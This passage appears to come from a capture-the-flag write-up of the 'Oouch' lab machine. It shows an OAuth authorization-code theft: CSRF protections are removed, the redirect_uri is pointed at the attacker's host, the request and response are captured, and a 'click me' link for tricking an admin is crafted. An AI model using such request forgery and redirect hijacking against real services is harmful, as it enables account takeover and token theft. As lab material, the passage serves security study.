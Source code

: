     Upgrade-Insecure-Requests: 1



I was able to take out both the CSRF parameter in the POST and the CSRF
cookie. I could also take out the `sessionid` cookie, but then I get the
login page instead of the `redirect_uri`.

Now I want to change the `redirect_url` to something else, but it
returns a 400 Bad request:



                <h2>Error: invalid_request</h2>
                <p>Mismatching redirect URI.</p>



If I update the `client_id` and the `redirect_uri` to match what I
registered above, the request will come back without throwing that
error:



    GET /oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&allow=Authorize&state= HTTP/1.1
    Host: authorization.oouch.htb:8000
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Connection: close
    Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
    Upgrade-Insecure-Requests: 1





    HTTP/1.1 302 Found
    Content-Type: text.md; charset=utf-8
    Location: http://10.10.14.6/token?code=eG2kDsLExEKn8tVtzqERCXwyx7b95U
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Vary: Authorization, Cookie



#### CSRF #2

With the GET request above, I can now send this as a link to the admin
and have them click on it and redirect to me. I'll create the following
link:



    <a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&state=&allow=Authorize">click me</a>
